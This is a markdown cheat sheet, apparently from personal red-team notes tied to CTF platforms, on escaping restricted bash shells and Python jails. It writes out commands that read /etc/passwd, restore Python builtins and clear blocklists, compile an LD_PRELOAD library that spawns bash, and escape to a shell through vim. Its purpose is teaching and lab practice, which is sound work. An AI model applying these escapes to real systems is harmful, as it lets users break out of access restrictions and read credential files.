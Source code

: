 # Restricted Shells

[![linuxprivilegeescalation](../../../../_badges/htb/linuxprivilegeescalation.svg)](https://academy.hackthebox.com/course/preview/linux-privilege-escalation)
[![escaping_from_jails](../../../../_badges/hacktricks/escaping_from_jails.svg)](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/escaping-from-limited-bash#bash-jails)
[![bash_restricted_shells](../../../../_badges/rootme/app_script/bash_restricted_shells.svg)](https://www.root-me.org/en/Challenges/App-Script/Bash-Restricted-shells)

<div class="row row-cols-lg-2"><div>

A restricted shell such as `rbash` is a shell that restrict the action of the user to a limited list of commands/arguments. For instance, for rbash:

* we cannot use commands with pathnames containing a "/"
* we can use `help` to list available commands
* we cannot use `cd`
* more restrictions may be in place

To escape of restricted shells, we can try to use command substitution (ex: <code>ls \`pwd\`</code>), command chaining, or editing environment variables.
</div><div>

Common tricks:

* **List files**: `echo /*` and `echo /.*`
* **Read a file**: `read f < /etc/passwd; echo $f`
* **Read a file**: `f=$(</etc/passwd); echo $f`

Use `compgen -c`, `help`, or `<tab>` to list available commands.

📚 Sometimes, `ssh [...] -t "/bin/bash --noprofile"` may work.
</div></div>

<hr class="sep-both">

## Restricted Bash (rbash)

[![bash_restricted_shells](../../../../_badges/rootme/app_script/bash_restricted_shells.svg)](https://www.root-me.org/en/Challenges/App-Script/Bash-Restricted-shells)

<div class="row row-cols-lg-2"><div>

#### Enumeration

The `readonly` command is useful to list which variable you can't edit.

```shell!
$ readonly
ENV
PATH
HOME
```

You can use `declare` to get information about your environment.

```shell!
$ declare -x # remove -x to see functions
BASH_VERSINFO=([0]="4" [1]="4" [2]="20" [3]="1" [4]="release" [5]="i686-pc-linux-gnu")
BASH_VERSION='4.4.20(1)-release'
PATH=/tmp/void/
SHELLOPTS=braceexpand:emacs:hashall:histexpand:history:interactive-comments:monitor
```
</div><div>

#### Read a file

Method using `mapfile`:

```shell!
$ mapfile array < /etc/passwd
$ echo ${array[@]}
```

Method using `history`:

```shell!
$ export HISTFILE=/etc/passwd
$ history -r
$ history
```

Method using `bind`:

```shell!
$ bind -f /etc/passwd
```
</div></div>

<hr class="sep-both">

## Python Jails

*Additional reference: [python payloads](/cybersecurity/red-team/s3.exploitation/vulns/cheatsheet/payloads.md#python).*

<div class="row row-cols-lg-2"><div>

#### Python Jails Enumeration

Find variables and information about your context:

```py
globals()     # global symbols (variables, functions)
locals()      # local symbols (function, method, block)
vars()        # without any argument, same as 'locals'
```

```py
del __builtins__  # restore them
__builtins__.__dict__ # or __builtins__ if deleted
open = __builtins__.__dict__['open']
os = __builtins__.__dict__['__import__']('os')
```

#### Python File Write

[![pythonplayground](../../../../_badges/thm-p/pythonplayground.svg)](https://tryhackme.com/r/room/pythonplayground)

You can arbitrarily create files or python scripts using:

```py
print("Hello, World!", file=open("/dev/shm/poc", "w"))
print("im"+"port os\nprint(os.getcwd())", file=open("/dev/shm/poc.py", "w"))
```

#### Python File Read

You can arbitrarily read files using:

```py
file=open("/etc/passwd", "r"); print(''.join(file.readlines()))
```
```py
help('print') # :e/path/to/file
```
</div><div>

#### Python Jails Escape

[![pythonplayground](../../../../_badges/thm-p/pythonplayground.svg)](https://tryhackme.com/r/room/pythonplayground)

Arbitrarily set a variable, such as the list of blocked commands:

```py
setattr(__import__('__main__'),'blocklist',[])
```

Try loading modules using `__import__`:

```py
__import__("os").getcwd()
```

Set the path to load arbitrary Python files:

```py
setattr(__import__("sys"), "path", list(("/dev/shm/",))) ; __import__("my_file")
__import__("sys").path.append("/dev/shm/") # better?
```

Use breakpoint:

```py
breakpoint() # then write any python code
```
</div></div>

<hr class="sep-both">

## Special Scenarios

<div class="row row-cols-lg-2"><div>

#### LD_PRELOAD

[![bash_restricted_shells](../../../../_badges/rootme/app_script/bash_restricted_shells.svg)](https://www.root-me.org/en/Challenges/App-Script/Bash-Restricted-shells)

If we have access to a program that honor `LD_PRELOAD`, e.g. any command aside from the builtin functions, we may be able to pop a bash. For that to be possible, we need a malicious `.so`. 

If `gcc` is available, we can easily compile one, while it's unlikely. 

```shell!
$ echo 'void _init() {' > /tmp/test.c
$ echo 'system("/bin/bash");' >> /tmp/test.c
$ echo '}' >> /tmp/test.c
$ gcc -shared -fPIC /tmp/test.c -o /tmp/test.so -nostartfiles
$ LD_PRELOAD='/tmp/test.so' gcc
```

➡️ If gcc is available, `gcc -wrapper /bin/bash,-s .` is faster.
</div><div>

#### VIM

[![bash_restricted_shells](../../../../_badges/rootme/app_script/bash_restricted_shells.svg)](https://www.root-me.org/en/Challenges/App-Script/Bash-Restricted-shells)

If you can run VIM, it's easy to escape:

```ruby!
:set shell=/bin/bash
:shell
```
</div></div>

<hr class="sep-both">

## 👻 To-do 👻

Stuff that I found, but never read/used yet.

<div class="row row-cols-lg-2"><div>

* `chroot` (chroot xxx, chroot .., chroot .)
* [chw00t](https://github.com/earthquake/chw00t)
</div><div>
</div></div>
